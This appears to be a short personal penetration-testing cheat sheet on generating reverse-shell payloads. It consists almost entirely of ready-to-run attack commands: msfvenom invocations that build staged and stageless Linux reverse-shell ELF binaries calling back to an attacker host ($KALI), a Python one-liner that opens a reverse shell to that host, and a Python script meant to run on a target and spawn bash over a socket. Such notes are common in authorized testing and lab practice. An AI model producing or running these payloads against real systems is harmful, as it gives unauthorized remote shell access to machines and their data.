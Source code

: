 ```yaml
---
category: Uncategorized
tags: []
---
```

## MSFVenom 

Staged - Sends payload in stages, can be less stable.
	windows/meterpreter/reverse_tcp
	
Stageless - Sends exploit shellcode all at once, larger in size, won't always work.
	windows/meterpreter_reverse_tcp

#### Staged Payloads - WILL NOT WORK WITH NC!
```bash - kali
msfvenom -p linux/x86/shell/reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse86.elf
```

```bash - kali
msfvenom -p linux/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse64.elf
```

#### Stageless Payloads
```bash - kali
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse86.elf
```

```bash - kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse64.elf
```

#### Python
```bash - kali
exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

#### Python file root execute
```bash - target
which bash
```

```python - target
#!/usr/bin/env python
import socket, os, pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",8003));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```




